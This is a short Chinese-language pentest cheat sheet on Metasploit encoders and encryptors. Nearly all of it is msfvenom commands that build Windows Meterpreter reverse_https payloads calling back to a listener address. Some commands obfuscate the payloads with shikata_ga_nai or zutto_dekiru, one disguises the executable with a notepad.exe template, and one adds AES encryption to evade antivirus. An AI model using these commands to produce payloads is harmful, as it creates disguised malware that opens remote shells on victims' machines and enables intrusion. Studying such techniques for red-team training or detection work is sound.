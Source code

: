 ## Metasploit Encoders

对windows x86系统使用shikata_ga_nai

```
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.96.49 lport=443 -e x86/shikata_ga_nai -f exe -o met.exe
```

x64系统x64/zutto_dekiru
```
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.96.49 lport=443 -e x64/zutto_dekiru -f exe -o met.exe
```

使用template 属性，例如这边使用notepad.exe
```
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.96.49 lport=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o met.exe
```

## Metasploit Encryptors

```bash
msfvenom --list encrypt
Framework Encryption Formats [--encrypt <value>]

    Name
    ----
    aes256
    base64
    rc4
    xor

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.96.49 lport=443 -e x64/zutto_dekiru --encrypt aes256 --encrypt-key 123jk4ghuio12341jkl3g -x /home/kali/notepad.exe -f exe -o met.exe

```

